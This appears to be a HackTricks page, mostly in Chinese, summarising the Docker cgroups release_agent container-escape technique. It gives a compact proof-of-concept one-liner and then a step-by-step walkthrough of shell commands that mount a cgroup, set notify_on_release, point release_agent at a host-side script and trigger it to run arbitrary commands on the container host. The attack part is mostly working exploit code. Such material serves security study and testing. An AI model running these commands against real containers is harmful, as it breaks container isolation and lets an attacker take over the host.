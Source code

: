 # Docker release\_agent cgroups escape

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}


**有关更多详细信息，请参阅** [**原始博客文章**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** 这只是一个摘要：

原始 PoC:
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
The proof of concept (PoC) demonstrates a method to exploit cgroups by creating a `release_agent` file and triggering its invocation to execute arbitrary commands on the container host. Here's a breakdown of the steps involved:

1. **准备环境：**
* 创建一个目录 `/tmp/cgrp` 作为 cgroup 的挂载点。
* 将 RDMA cgroup 控制器挂载到该目录。如果 RDMA 控制器不存在，建议使用 `memory` cgroup 控制器作为替代。
```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
2. **设置子 Cgroup：**
* 在挂载的 cgroup 目录中创建一个名为 "x" 的子 cgroup。
* 通过向其 notify\_on\_release 文件写入 1 来启用 "x" cgroup 的通知。
```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```
3. **配置释放代理：**
* 从 /etc/mtab 文件中获取主机上容器的路径。
* 然后将 cgroup 的 release\_agent 文件配置为执行位于获取的主机路径上的名为 /cmd 的脚本。
```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
4. **创建和配置 /cmd 脚本：**
* /cmd 脚本在容器内创建，并配置为执行 ps aux，将输出重定向到容器中的一个名为 /output 的文件。指定了主机上 /output 的完整路径。
```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```
5. **触发攻击：**
* 在“x”子cgroup中启动一个进程，并立即终止。
* 这会触发`release_agent`（/cmd脚本），该脚本在主机上执行ps aux，并将输出写入容器中的/output。
```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
